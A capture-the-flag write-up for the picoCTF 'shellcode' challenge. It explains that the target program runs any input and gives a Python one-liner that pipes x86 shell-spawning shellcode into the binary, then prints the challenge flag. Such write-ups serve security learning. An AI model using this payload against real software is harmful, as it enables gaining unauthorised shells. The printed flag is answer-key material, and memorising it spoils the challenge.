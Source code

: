 > shellcode - Points: 200 - (Solves: 256)
> This program executes any input you give it. Can you get a shell? You can find the program in /problems/shellcode_4_99838609970da2f5f6cf39d6d9ed57cd on the shell server. Source.

By looking at the source we see that the program simply takes input and executes it. Which means we can pass arbitrary shell input which will be executed by the program.

Hence we pass in shellcode and let the program execute it and gives us a shell back.

Note: we need the `cat -` in this case so that we're able to access the shell after the program ends.
```
(python -c 'print "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43" + "\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80" + "\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'; cat - ) | ./vuln
```

Once we get our shell we simply cat the flag to print it.
`cat flag.txt`

Flag: `picoCTF{shellc0de_w00h00_b766002c}`
